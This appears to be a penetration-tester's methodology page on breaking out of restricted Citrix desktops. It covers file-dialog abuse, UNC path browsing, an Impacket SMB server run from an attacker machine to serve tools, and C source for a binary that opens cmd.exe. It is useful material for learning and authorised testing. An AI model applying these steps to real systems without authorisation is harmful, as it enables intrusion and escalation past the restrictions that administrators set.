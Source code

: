 # Citrix Breakout

Basic Methodology for break-out:

1. Gain access to a Dialog Box.
2. Exploit the Dialog Box to achieve command execution.
3. Escalate privileges to gain higher levels of access.

## 1 & 2

### Bypassing Path Restrictions

1) Open one desktop application (Paint, Notepad, Wordpad, MS Paint)

2) Click on File > Open to open the Dialog Box

3) Set File-Type to All Files and enter the UNC path \\127.0.0.1\c$\users\pmorgan into File Name

### Accessing SMB share from restricted environment

1) Start a SMB server from the attacker machine using Impacket's smbserver.py script

```
smbserver.py -smb2support share $(pwd)

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

2) Open one desktop application (Paint, Notepad, Wordpad, MS Paint)

3) Click on File > Open to open the Dialog Box

4) Set File-Type to All Files and enter the UNC path \\10.13.38.95\share into File Name

--> Due to the presence of restrictions within the File Explorer, direct file copying is not viable.

Right-clicking on the executables and subsequently launching them

The executable pwn.exe is a custom compiled binary from pwn.c file which upon execution opens up the cmd.

```
#include <stdlib.h>
int main() {
  system("C:\\Windows\\System32\\cmd.exe");
}
```

### Alternate Explorer
